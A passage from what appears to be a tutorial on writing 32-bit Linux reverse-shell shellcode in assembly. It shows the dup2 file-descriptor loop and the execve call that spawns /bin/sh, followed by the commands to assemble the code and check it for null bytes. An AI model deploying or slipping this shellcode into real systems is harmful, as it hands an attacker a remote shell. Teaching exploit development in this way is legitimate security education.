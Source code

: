 ```nasm
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup

  ; spawn /bin/sh using execve
  ; int execve(const char *filename, char *const argv[],char *const envp[]);
  mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
  inc  ecx         ; argv=0
  mov  edx, ecx    ; envp=0
  push edx         ; terminating NULL
  push 0x68732f2f	 ; "hs//"
  push 0x6e69622f	 ; "nib/"
  mov  ebx, esp    ; save pointer to filename
  int  0x80        ; syscall: exec sys_execve
```

### testing

Now, as in the first part, let's assemble it and check if it properly works and does not contain any null bytes:
```bash
nasm -f elf32 -o rev.o rev.asm
ld -m elf_i386 -o rev rev.o
objdump -M intel -d rev
```

![compile shellcode](/assets/images/14/2021-10-16_13-53.png){:class="img-responsive"}       
